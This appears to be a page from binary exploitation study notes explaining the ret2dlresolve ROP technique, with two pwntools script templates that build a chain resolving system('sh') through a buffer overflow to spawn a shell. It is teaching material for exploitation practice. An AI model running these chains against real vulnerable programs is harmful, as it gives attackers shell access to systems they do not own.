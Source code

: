 ```yaml
---
description: >-
  A way to exploit buffer overflows using ROP when not many gadgets are
  available, and Full RELRO is disabled
---
```


# ret2dlresolve

Ret2dlresolve is a technique that can be used to trick the binary into resolving a specific function, such as `system()`, into the PLT (Procedure Linkage Table). By doing this, you can use the PLT function as if it was an original component of the binary. This bypasses ASLR and does not require any leaks of the libc address.

The attack is only possible when you can overwrite GOT entries, making it impossible on Full RELRO. On both No RELRO and Partial RELRO this attack is possible however:

![](<../../.gitbook/assets/image (2) (1) (1) (1) (1).png>)

For a more detailed explanation see:

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve" %}
Detailed analysis and information about ret2dlresolve from ir0nstone's notes
{% endembed %}

## PwnTools

PwnTools contains a [`ret2dlresolve`](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html) function that can generate payloads for this attack automatically.&#x20;

### `read()`

```python
rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['sh'])
rop.raw(rop.ret)  # Align stack (64-bit)
rop.read(0, dlresolve.data_addr)  # Call read function to write data
rop.ret2dlresolve(dlresolve)  # Write data

p.sendline(flat({
    OFFSET: rop.chain(),
}))
p.sendline(dlresolve.payload)  # Run /bin/sh

p.interactive()
```

### `gets()`

```python
rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['sh'])
rop.raw(rop.ret)  # Align stack (64-bit)
rop.gets(dlresolve.data_addr)  # Call read function to write data
rop.ret2dlresolve(dlresolve)  # Write data

p.sendline(flat({
    OFFSET: rop.chain(),
}))
p.sendline(dlresolve.payload)  # Run /bin/sh

p.interactive()
```
